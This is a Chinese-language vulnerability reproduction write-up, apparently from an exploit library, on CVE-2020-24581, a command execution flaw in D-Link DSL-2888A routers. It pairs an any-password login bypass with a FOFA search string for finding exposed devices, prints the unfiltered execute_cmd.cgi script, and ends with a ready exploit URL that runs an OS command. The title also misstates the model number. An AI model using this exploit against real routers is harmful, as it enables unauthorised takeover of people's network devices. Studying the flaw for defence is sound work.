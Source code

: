 ```yaml
---
title: D-Link DSL-28881A 远程命令执行 CVE-2020-24581
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - D-Link
---
```


# D-Link DSL-28881A 远程命令执行 CVE-2020-24581

## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

> [!NOTE]
>
> D-Link DSL-2888A

## FOFA

> [!NOTE]
>
> body="DSL-2888A"

## 漏洞复现

登录页面输入任意密码建立连接

![](/img/20210924015547196704.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 **execute_cmd.cgi** 文件中

```sh
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```

这里取出 **${QUERY_STRING}** 中的第二个参数值，然后去除空格命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 **/www/js/ajax.js** 

```js
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},

```

看一下过程

```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```

这里取第二个参数 **whoami** 然后就没有过滤的执行了 

所以EXP为:

```
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```

![](/img/20210924015547352858.png)